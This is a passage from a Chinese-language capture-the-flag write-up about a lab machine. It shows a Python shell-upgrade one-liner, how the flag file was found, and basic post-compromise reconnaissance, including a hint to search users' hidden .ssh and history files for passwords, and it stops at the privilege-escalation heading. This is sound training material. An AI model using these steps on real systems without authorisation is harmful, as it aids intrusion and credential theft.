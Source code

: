 ```
# 利用python获取交互shell -&gt; python失败使用python3

python -c "import pty;pty.spawn('/bin/bash')";
```

#### FLAG1获取​​​​​​​

```
www-data@dawn:~$ find / -name local.txt 2&gt;/dev/null

/home/dawn/local.txt

cat /home/dawn/local.txt

*************************
```

#### 信息收集-内网基础信息收集

在获取shell之后我们要进行内网信息的收集，都是为了`提权`做准备

##### 检测操作系统的发行版本​​​​​​​

```
# 确定发行版本

lsb_release -a
```

##### 查看内核版本信息​​​​​​​

```
# 确定内核版本

uname -a
```

##### 确认home目录下用户

```
# 发现了两个用户 和我们收集的一样

ls -al /home
```

###### 确认每个home目录下是否有隐藏文件(待定)​​​​​​​

```
# 例如.ssh找密码 ./*_history找历史记录等

ls -al /home/dawn
```

发现了隐藏的内容，先放一边，没思路就来

#### 权限提升
